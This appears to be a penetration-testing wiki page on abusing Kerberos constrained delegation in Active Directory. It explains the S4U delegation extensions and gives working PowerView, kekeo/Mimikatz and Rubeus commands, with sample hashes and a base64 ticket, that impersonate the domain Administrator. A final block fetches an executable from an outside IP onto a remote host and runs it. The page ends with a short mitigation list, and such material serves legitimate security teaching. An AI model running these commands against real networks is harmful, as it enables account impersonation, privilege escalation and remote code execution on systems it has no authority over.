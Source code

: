 # Constrained Delegation

## Constrained Delegation

Using this a Domain admin can allow 3rd parties to impersonate a user or computer against a service of a machine.

* **Service for User to self (**_**S4U2self**_**):** If a **service account** has a _userAccountControl_ value containing [TRUSTED\_TO\_AUTH\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx) (T2A4D), then it can obtains a TGS for itself (the service) on behalf of any other user.
* **Service for User to Proxy(**_**S4U2proxy**_**):** A **service account** could obtain a TGS on behalf any user to the service set in **msDS-AllowedToDelegateTo.** To do so, it first need a TGS from that user to itself, but it can use S4U2self to obtain that TGS before requesting the other one.

**Note**: If a user is marked as ‘_Account is sensitive and cannot be delegated_ ’ in AD, you will **not be able to impersonate** them.

This means that if you **compromise the hash of the service** you can **impersonate users** and obtain **access** on their behalf to the **service configured** (possible **privesc**).\
Also, you **won't only have access to the service that user is able to impersonate, but also to any service that uses the same account as the allowed one** (because the SPN is not being checked, only privileges). For example, if you have access to **CIFS service** you can also have access to **HOST service**.\
Moreover, notice that if you have access to **LDAP service on DC**, you will have enough privileges to exploit a **DCSync**.

{% code title="Enumerate from Powerview" %}
```bash
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
{% endcode %}

{% code title="Using kekeo.exe + Mimikatz.exe" %}
```bash
#Obtain a TGT for the Constained allowed user
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:8c6264140d5ae7d03f7f2a53088a291d
#Get a TGS for the service you are allowed (in this case time) and for other one (in this case LDAP)
tgs::s4u /tgt:TGT_dcorpadminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLAR CORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorpdc.dollarcorp.moneycorp.LOCAL
#Load the TGS in memory
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~ dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'  
```
{% endcode %}

{% code title="Using Rubeus " %}
```bash
#Obtain a TGT for the Constained allowed user
.\Rubeus.exe asktgt /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /outfile:TGT_websvc.kirbi
#Obtain a TGS of the Administrator user to self
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /impersonateuser:Administrator /outfile:TGS_administrator
#Obtain service TGS impersonating Administrator (CIFS)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /outfile:TGS_administrator_CIFS
#Impersonate Administrator on different service (HOST)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /altservice:HOST /outfile:TGS_administrator_HOST
#Load ticket in memory
.\Rubeus.exe ptt /ticket:TGS_administrator_CIFS_HOST-dcorp-mssql.dollarcorp.moneycorp
```
{% endcode %}

{% code title="Other Method (Rubeus)" %}
```
Rubeus.exe tgtdeleg 
.\Rubeus.exe s4u
/ticket:doIE9jCCBPKgAwIBBaEDAgEWooIEBTCCBAFhggP9MIID+aADAgEFoQsbCU0zQy5MT0NBT
KIeMBygAwIBAqEVMBMbBmtyYnRndBsJTTNDLkxPQ0FMo4IDwzCCA7+gAwIBEqEDAgECooIDsQSCA6
3MkP00gTXk3eKQPGJKfoYjY3I3Bg0T6zCZVoQOLPIWI0qR7oMkgRcV1bQ6iyTdAfbbWeuR/IK7osn
RC4EckM+t7QvA4Qnr0t6EJtFNEexa2NG5F9sOv5tlDVSRmFec2+zvw5CDv+sO9dgnOFCPv9rxW40F
Dyz41ccdLuHiRIUT5IgBfT8FR+KF87vc+fFwVDlbqETlzmXUH0or334+YUMdjJDahw/UZAgZh9/U/
hGpqsHdhujNsgJR+MCARBAuC+1PLtzDrRLFR8/Ay4svRr1KAQN7KVopt2FeMUAtWy2QTHWyMFvl7b
5sR4jk0INj5p97Iy1/c9K8V/H0B56PCcUxib+z2SxYZ0koNgsTRI4VwmLxXG7lNu512/fUrLxpcbP
fnAuGAqZuUAKcZquReDRNp3FaKNSphWoY3nTO2ays4hUq3Skhhn3TybM1yg7l4yzdeS+fbBOJ76O2
RpvaMJk3OjTgbMftyKl3nx8yI4Knlxxj0XixHaS3L2lLGfWeCiRaSnJhRq1A10QA/7IMU+V4MkVLf
3sxz4A1TCESHuO2lWvMud3QACJiQlp+uZc8mzKDSHzq8ZUXfHwUw5GjnsMz+n05o+a5/HiGtTzysX
21IukfnHrGDQd2EHd8XVSfhI5ntxhAny3P8WKcBDy5J3gDLqjGZAQA5TeZril/HKT64uk/S8rmOr5
BSQJGZxXpzMyTs38D1Szi2oGADeSF7mZoN3BS8ebkBgxqxJaOxAnFeGlRjao6je79encUOS/iWmfv
ooGP296u8xB4y6Hki+1MLH7QFN2gVddZ5UTZKsE45qZzixEfOa8qKbejb/dCAgAquNCKpbL/2VGCJ
whPrDVVRDZFNy6DBZ29wZI3GjhcSU/K2JnN8vIe0EpHOaPgHVIF19tGzyioeTZdedjRCC7P6LCEUc
rojWbXJt8bxP3BbJN6Bdp9nwTogKf3OONJhapRn0PfZZQYQdZ0tEd3RNAmqCyWEf5tbUd+wyjwjVE
2cdObubHOJQtcXiMxZF7G9YReg/XzGybX4hkindZyS/9jkff4BiIaMk/e7L66ASIT4EeaIiSwS9tn
fCiJxBb59Arn7WYIH+srTRSCYbssbSiCghUW15km5fo4KnVNO6UIWDxdk0JZ+z5JnkL6TGo0++bLX
dOAyPXDWoPmCbLA3jyFebHN98jzzPZgotC7vFpTv8h5jJ5zNeIxcN7PHr+qMRbBISMxxB6mkHFB1g
8yubytnDET6Wx4LUm3OIzqRaOB3DCB2aADAgEAooHRBIHOfYHLMIHIoIHFMIHCMIG/oCswKaADAgE
SoSIEID46bIOxprG+RsD6AyYyOB2Izk7AINDtf+FOAXDBbdlioQsbCU0zQy5MT0NBTKIUMBKgAwIB
AaELMAkbB3N2Y19zcWyjBwMFAGChAAClERgPMjAyMDA0MjIwOTEwNDFaphEYDzIwMjAwNDIyMTkwM
DAxWqcRGA8yMDIwMDQyOTA5MDAwMVqoCxsJTTNDLkxPQ0FMqR4wHKADAgECoRUwExsGa3JidGd0Gw
lNM0MuTE9DQUw= /impersonateuser:svc_apache /domain:m3c.local
/msdsspn:time/M3WEBAW.M3C.LOCAL /dc:M3DC.M3C.LOCAL /ptt
```
{% endcode %}

{% code title="Cobalt" %}
```
$session = new-pssession -computername m3webaw
invoke-command $session {powershell -NoP -NonI -c Invoke-WebRequest -Uri 'http://10.10.14.177:80/b2.exe' -OutFile 'c:\\Windows\\Temp\\b2.exe'}
invoke-command $session {cd 'c:\\Windows\\Temp'; .\b2.exe}G
```
{% endcode %}

### Mitigation

* Disable kerberos delegation where possible
* Limit DA/Admin logins to specific services
* Set "Account is sensitive and cannot be delegated" for privileged accounts.

[**More information in ired.team.**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)

